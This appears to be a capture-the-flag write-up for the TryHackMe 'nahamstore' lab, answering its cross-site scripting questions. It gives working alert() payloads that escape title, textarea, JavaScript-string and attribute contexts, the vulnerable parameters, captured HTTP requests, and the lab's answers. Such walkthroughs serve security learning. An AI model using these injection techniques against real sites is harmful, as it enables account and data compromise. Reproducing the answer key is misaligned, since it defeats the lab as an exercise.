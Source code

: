 #XSS

1. Enter an URL ( including parameters ) of an endpoint that is vulnerable to XSS

http://marketing.nahamstore.thm/?error=hello

hello is reflect back on the page. so am trying to execute java-script function
<script>alert("hacked by nazu")</script>

http://marketing.nahamstore.thm/?error=%3Cscript%3Ealert(%22hacked%20by%20nazu%22)%3C/script%3E | BOOM!

URL ( including parameters ) of an endpoint that is vulnerable to XSS

answer = http://marketing.nahamstore.thm/?error=

2.What HTTP header can be used to create a Stored XXS

answer = user-agent 
cuz it was stord on the page when you orderd something from the page.

3.What HTML tag needs to be escaped on the product page to get the XSS to work?

if you can see the name "Sticker Pack" is reflected on two place. the first one is on the header place and the second one is on the body place inside div tag. so what we need to execute xss on the name parameter?

first we need to balance our payload. for this we should close the title tag then we inject our payload finally we create open title tag.

our payload = </title><script>alert("hacked by nazu")</script><title>

answer = title

4.What JavaScript variable needs to be escaped to get the XSS to work?

=> on the main page(nahamstore.thm) we will see search engine. when we search something on it, our input being reflected on the page. so we know how we balance something for executing xss.

in the source code i found #search parameter. so the question is JavaScript variable not html tag. 

our payload = ';alert("hacked by nazu");'

var search = '';alert("hacked by nazu");'';

answer  => search

5.What #hidden parameter can be found on the #shop home page that introduces an XSS vulnerability.

hidden means we only see on source code or brutforcing and so on..

So on the line 53 i saw this code
$.get('/search-products?q=' + search,function(resp){
if you can see always parameter satands from "?" sign and it have key and value "?q=" for example = ?name=nazu

answer is ='q'

6.What HTML tag needs to be escaped on the returns page to get the XSS to work?

first go to return page then order something 

if you can see your text area input reflected back on the page. so for this issue first we close the text-are tag then we inject our code finally we open text area tag for that closed tag.

payload = </textarea><script>alert("hacked by nazu")</script><textarea>

source code = <textarea class="form-control"></textarea><script>alert("hacked by nazu")</script><textarea></textarea>

answer = textarea

7.What is the value of the H1 tag of the page that uses the requested URL to create an XSS

when am trying to enumerate hidden URL and directory i found 404 page but our directory is reflected back on the page inside P tag.

http://nahamstore.thm/.htacces

```<h1 class="text-center">Page Not Found</h1>
<p class="text-center">Sorry, we couldn't find /.htacces anywhere</p>```

http://nahamstore.thm/<script>alert("hacked by nazu")</script>

<p class="text-center">Sorry, we couldn't find /<script>alert("hacked by nazu")</script> anywhere</p>

answer = Page Not Found
 
8.What other hidden parameter can be found on the shop which can introduce an XSS vulnerability

to be honest i spend 1+ hour for this question. don't try manually. use burp suite instead of it.

first click on the products from "sticker pack" and "hoodie", then type discount coupon code and hit "add to basket" button, remember use burp to capture this request

Request

```POST /product?id=2 HTTP/1.1
Host: nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://nahamstore.thm
Connection: close
Referer: http://nahamstore.thm/product?id=2
Cookie: session=9604154dd85ab285184436dd6ebc37cd
Upgrade-Insecure-Requests: 1

add_to_basket=1&discount=12```

notice on the http request start line and body

id=2
add_to_basket=1
discount=12


then i'm trying to execute xss using those parameter. but not interesting. so i changed the request method.

GET /product?id=2&add_to_basket=1&discount=12 HTTP/1.1
Host: nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: http://nahamstore.thm
Connection: close
Referer: http://nahamstore.thm/product?id=2
Cookie: session=9604154dd85ab285184436dd6ebc37cd
Upgrade-Insecure-Requests: 1

and it also refleted back on the page 

                      ``` <form method="post">
                            <input type="hidden" name="add_to_basket" value="1">
                            <div style="margin-bottom:10px"><input placeholder="Discount Code" class="form-control" name="discount" value="12"></div>
                            <input type="submit" class="btn btn-success" value="Add To basket">
                            <input type="button" class="btn btn-info checkstock" data-product-id="1" value="Check Stock">
                        </form>```

notice on the "name="discount" value="12">"

if i inject like this => "<script>alert("hacked by nazu")";// inside discount parameter guess what will happened?

first it will close the value parameter using double quote(") then the code will execute.

look 

value="12"
value=""<script>alert("hacked by nazu")";" | boom! 

answer = discount
